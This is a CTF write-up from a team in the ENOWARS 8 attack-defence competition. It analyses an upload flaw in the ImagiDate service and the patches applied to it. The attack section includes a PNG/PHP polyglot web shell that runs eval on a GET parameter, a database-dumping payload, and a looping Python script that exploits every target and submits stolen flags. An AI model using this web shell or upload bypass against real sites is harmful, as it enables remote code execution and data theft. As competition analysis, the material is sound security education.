



This saturday I have participated in the ENOWARS 8 Attack Defence competition with my team `CyberHero`. We managed to get `35th` place with total of **28894.98** points.



# ImagiDate Service Analysis

ImagiDate is a simulated online dating application featuring a basic user interface for registration and login. It comprises a PHP frontend and a Python API. Notably, the Python API is not publicly accessible, meaning interactions with it must occur through the frontend.



Upon creating a new account and logging in, users are presented with a profile page offering several options. Users can post new comments on their profile, which can be designated as either public or private.



Participants were provided with an `attack.json` file containing all necessary credentials and IDs required for executing exploits.

## Source Code Inspection

An examination of the source code revealed a file upload feature within `upload.php`:

```php
<?php
session_start();
error_reporting(0);
dd
if (!isset($_SESSION["user_id"])) {
    header("Location: login.php");
    exit();
}

$username = $_SESSION["username"];


$upload_dir = "uploads/" . md5($username) . "/";

if (!file_exists($upload_dir)) {
    mkdir($upload_dir, 0777, true);
}

if ($_FILES["image"]["error"] == UPLOAD_ERR_OK) {

    $destination = $upload_dir . $_FILES["image"]["name"];
    $mime_check = getimagesize($_FILES["image"]["tmp_name"])["mime"];
    if ($mime_check == "image/png" || $mime_check == "image/jpeg"){
        if (move_uploaded_file($_FILES["image"]["tmp_name"], $destination)) {
            header("Location: profile.php?id=" . $_SESSION["user_id"]);
            exit();
        } else {
            echo "Error: Failed to move uploaded file.";
            exit();
        }
    } else {
        echo "Error uploading file: Not an Image";
    }
} else {
    echo "Error uploading file: " . $_FILES["image"]["error"];
    exit();
}
?>
```
Although lines 22 and 23 implement MIME type protection, this can be circumvented by creating a PHP file with a valid image MIME type. By inspecting network traffic, we detected this type of attack and utilized a valid image to create a `image.php` file. The PHP code execution on the remote server was achieved by naming the file with a `.php` extension.

The payload used, represented in hexadecimal, is as follows:

```
89 50 4e 47 0d 0a 1a 0a 00 00 00 0d 49 48 44 52 00 00 00 01 00 00 00 01 08 06 00 00 00 1f 15 c4 89 00 00 00 01 73 52 47 42 00 ae ce 1c e9 00 00 00 0d 49 44 41 54 18 57 63 88 d8 32 eb 3f 00 05 b4 02 a6 bc 42 03 17 00 00 00 00 49 45 4e 44 ae 42 60 82 0d 0a 3c 3f 70 68 70 20 76 61 72 5f 64 75 6d 70 28 65 76 61 6c 28 24 5f 47 45 54 5b 22 62 68 22 5d 29 29 3b 3f 3e
```

This essentially embeds a PHP payload inside an image, satisfying MIME type requirements. The PHP payload:

```php
<?php var_dump(eval($_GET["bh"]));?>
```

By uploading this payload through any user account and accessing it via `/uploads/<user_hash>/image.php?bh=`, we could execute PHP code to extract flags from private comments of users listed in `attack.json`.

An example PHP payload, which must be URL-encoded to avoid errors, is shown below:

```php
include ('../../config.php');

$stmt = $conn->prepare("SELECT comment_text FROM comments AS c 
            INNER JOIN users as u ON (u.id = c.user_id) 
            WHERE u.username IN (""" + usernames + """)");
$stmt->execute();
$result = $stmt->get_result();
$res = [];
while ($row = $result->fetch_assoc()) {
    $res[] = $row['comment_text'];
}
$stmt->close();

var_dump($res); 
```

The database connection is facilitated by `config.php`:

```php
<?php
error_reporting(0);
define('DB_SERVER', 'db');
define('DB_USERNAME', 'date');
define('DB_PASSWORD', 'somepassword');
define('DB_DATABASE', 'date');


$conn = new mysqli(DB_SERVER, DB_USERNAME, DB_PASSWORD, DB_DATABASE);

if ($conn->connect_error) {
    die("Connection failed: " . $conn->connect_error);
}
?>
```

The final script used in the attack can be found below:

```python
import requests
import random
import string
import hashlib
import urllib.parse
import re
from pwn import *

def get_data(service):
    attacks_json = "https://8.enowars.com/scoreboard/attack.json"
    json_data = requests.get(attacks_json).json()
    services = json_data['services']
    attack_data = services[service]
    ips = services[service].keys()
    return (attack_data, ips)

def gen_random_creds():
    username = ''.join(random.choices(string.ascii_lowercase + string.digits, k=8))
    password = ''.join(random.choices(string.ascii_lowercase + string.digits, k=8))
    return (username, password)

def register(ip, creds, session):
    url = f"http://{ip}:8080/register.php"
    username, password = creds
    data = {
        "username": username,
        "password": password,
        "confirm_password": password,
        "gender": "male",
        "age": 69
    }
    session.post(url, data=data, timeout=3)

def login(ip, creds, session):
    url = f"http://{ip}:8080/login.php"
    username, password = creds
    data = {
        "username": username,
        "password": password
    }
    response = session.post(url, data=data, timeout=3)

def upload_image(ip, session):
    url = f"http://{ip}:8080/upload.php"
    files = {
        "image": open("image.php", "rb")
    }
    response = session.post(url, files=files, timeout=3)

def exploit_image(ip, session, attack_data, username_hash):
    usernames = []

    for attack in attack_data.keys():
        data = attack_data[attack]
        for key in data.keys():
            usernames.append(data[key][0].split(' ')[1])

    username_payload_body = "','".join(usernames)
    username_payload = "'" + username_payload_body + "'"

    exploit = f"""
        include ('../../config.php');               

        $stmt = $conn->prepare("SELECT comment_text FROM comments AS c 
                    INNER JOIN users as u ON (u.id = c.user_id) 
                    WHERE u.username IN ({username_payload})");
        $stmt->execute();
        $result = $stmt->get_result();
        $res = [];
        while ($row = $result->fetch_assoc()) {
            $res[] = $row['comment_text'];
        }
        $stmt->close();

        var_dump($res); 
    """

    urlencoded_exploit = urllib.parse.quote(exploit)

    res = session.get(f"http://{ip}:8080/uploads/{username_hash}/image.php?bh={urlencoded_exploit}", timeout=3)
    data = res.text

    pattern = r'ENO[A-Za-z0-9+\/=]{48}'
    flags = re.findall(pattern, data)

    return flags

def send_lines_to_server(ip, port, lines):
    try:
        connection = remote(ip, port)
        for line in lines:
            connection.sendline(line)
            response = connection.recvline()
            print(f"Received: {response.decode('utf-8').strip()}")
        connection.close()
    except Exception as e:
        print(f"An error occurred: {e}")

def exploit():
    attack_data, ips = get_data("ImagiDate")
    session = requests.Session()
    flags = []

    for ip in ips:
        print(f"Exploiting {ip}")
        try:
            creds = gen_random_creds()
            username, password = creds
            
            register(ip, creds, session)
            login(ip, creds, session)

            exploit_data = attack_data[ip]
            username_hash = hashlib.md5(username.encode('utf-8')).hexdigest()
            upload_image(ip, session)

            flags_data = exploit_image(ip, session, exploit_data, username_hash)
            flags.extend(flags_data)

        except Exception as e:
            pass

    send_lines_to_server("10.0.13.37", 1337, flags)

while True:
    time.sleep(60)
    exploit()
```

## Service Patch Implementation

To secure the application, several patches were implemented. One critical patch involved updating the hardcoded MySQL password in `config.php`:

```php
// old
define('DB_PASSWORD', 'somepassword');

// new
define('DB_PASSWORD', 'REDACTED');
```

Additionally, two measures were introduced to prevent PHP file uploads:

### Extension Check

```php
$destination = $upload_dir . $_FILES["image"]["name"];

$file_name = basename($_FILES["image"]["name"]);
$file_ext = strtolower(pathinfo($file_name, PATHINFO_EXTENSION));
$allowed_exts = ["jpg", "jpeg", "png"];

if (!in_array($file_ext, $allowed_exts)) {
    echo "Error: Invalid file extension.";
    exit();
}

$mime_check = getimagesize($_FILES["image"]["tmp_name"])["mime"];
```

### YAML Safety

```python
# old
parsed_data = yaml.load(yaml_data, yaml.Loader)
yaml.dump(user_info, open(file_path, "w"))

# new
parsed_data = yaml.safe_load(yaml_data, yaml.Loader)
yaml.safe_dump(user_info, open(file_path, "w"))
```

To prevent injection via registration data, length checks and word blacklists were implemented:

```php
$ALLOWED_LEN = 20;
$BLACKLISTED_STRINGS = ['python', 'exec'];

function contains_blacklisted_string($string, $blacklist) {
    foreach ($blacklist as $blacklisted) {
        if (stripos($string, $blacklisted) !== false) {
            return true;
        }
    }
    return false;
}

if (
    strlen($username) > $ALLOWED_LEN || strlen($gender) > $ALLOWED_LEN
    || strlen($requested_username) > $ALLOWED_LEN || !is_numeric($age)
) {
    echo "Your Input seems to be wrong. Some parameter was too large";
    exit();
}

if (contains_blacklisted_string($punchline, $BLACKLISTED_STRINGS)) {
    echo "Your punchline contains forbidden content.";
    exit();
}
```

By implementing these patches, we significantly improved the security of the ImagiDate service, mitigating the vulnerabilities that were exploited during the competition.